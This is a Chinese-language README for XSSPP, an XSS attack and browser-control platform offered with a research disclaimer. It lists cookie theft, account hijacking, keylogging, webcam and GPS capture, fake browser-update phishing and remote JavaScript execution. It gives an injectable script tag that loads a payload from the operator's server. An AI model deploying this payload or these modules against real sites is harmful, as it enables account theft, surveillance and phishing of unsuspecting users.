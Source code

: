 # XSSPP - 跨站脚本攻击测试平台

XSSPP是一个用于安全测试和教育目的的跨站脚本(XSS)攻击测试平台。该平台提供了一套完整的工具，用于模拟、检测和分析XSS漏洞，帮助安全研究人员和开发者更好地理解和防范XSS攻击。

> **免责声明**：本工具仅供安全研究和教育目的使用。使用本工具进行未授权的安全测试是违法的。请在获得明确授权的情况下使用本工具。

## 功能特点

### 多种攻击模块
- **常用工具**：Cookie读取、获取页面信息、表单数据、存储信息、页面截图
- **JSONP劫持**：用户登录检测、百度账号检测、QQ账号检测、微博账号检测、淘宝账号检测、京东账号检测
- **信息收集**：公网IP获取、内网IP获取、摄像头拍照、GPS定位获取、百度身份获取、键盘记录
- **钓鱼攻击**：登录钓鱼、通知钓鱼、Flash更新钓鱼、Chrome浏览器更新钓鱼

### 管理功能
- 实时监控在线客户端
- 详细的客户端信息（公网IP、操作系统、浏览器等）
- 远程执行JavaScript代码
- 查看执行结果
- 截图和摄像头照片保存

## 技术架构

- **后端**：Go语言开发，使用gorilla/websocket实现WebSocket通信
- **前端**：纯JavaScript，无需框架依赖
- **通信**：基于WebSocket的实时双向通信
- **存储**：本地文件系统存储图片和配置

## 安装指南

### 前提条件
- Go 1.16+
- 支持WebSocket的现代浏览器

### 安装步骤

1. 克隆仓库
```bash
git clone https://github.com/yourusername/xsspp.git
cd xsspp
```

2. 安装依赖
```bash
go mod download
```

3. 配置平台
编辑`config.json`文件，设置服务器地址、端口、认证信息等：
```json
{
  "server": {
    "host": "0.0.0.0",
    "port": 8080,
    "baseUrl": "http://localhost:8080"
  },
  "auth": {
    "username": "admin",
    "password": "password",
    "sessionCookieName": "xss_session",
    "sessionValue": "your_secure_session_value"
  },
  "paths": {
    "static": "./static",
    "images": "./images"
  },
  "websocket": {
    "allowCrossOrigin": true
  }
}
```

4. 运行平台
```bash
go run main.go
```

5. 访问管理界面
打开浏览器，访问`http://localhost:8080`，使用配置文件中设置的用户名和密码登录。

## 使用指南

### 部署Payload

1. 登录管理界面后，复制提供的Payload代码：
```html
<script src="http://your-server:8080/payload.js"></script>
```

2. 将此代码注入到目标网页中（仅限于您有权测试的网页）。

### 管理客户端

1. 当目标网页加载Payload后，客户端会自动连接到管理平台。
2. 在管理界面的"在线客户端"部分可以看到所有连接的客户端。
3. 点击"管理"按钮进入客户端详情页面。

### 执行模块

1. 在客户端详情页面，选择要执行的模块。
2. 点击"执行"按钮。
3. 查看执行结果。

### 自定义代码执行

1. 在客户端详情页面，切换到"自定义代码"标签。
2. 输入要执行的JavaScript代码。
3. 点击"执行"按钮。
4. 查看执行结果。

## 安全建议

- 更改默认的用户名和密码
- 使用HTTPS加密通信
- 限制访问IP
- 定期更新平台
- 仅在授权环境中使用

## 项目结构

```
xsspp/
├── config.json          # 配置文件
├── main.go              # 主程序入口
├── modules.json         # 模块配置
├── modules/             # 模块代码
│   ├── cookie.js        # Cookie读取模块
│   ├── screenshot.js    # 截图模块
│   └── ...              # 其他模块
├── static/              # 静态文件
│   ├── client.html      # 客户端管理页面
│   ├── dashboard.html   # 控制台页面
│   ├── login.html       # 登录页面
│   ├── payload.js       # 客户端Payload
│   └── style.css        # 样式文件
└── images/              # 图片存储目录
```

## 贡献指南

欢迎提交Pull Request或Issue来改进这个项目。在提交代码前，请确保：

1. 代码符合Go和JavaScript的编码规范
2. 新功能包含适当的文档
3. 所有测试通过

## 许可证

本项目采用MIT许可证。详见LICENSE文件。

## 致谢

感谢所有为这个项目做出贡献的开发者和安全研究人员。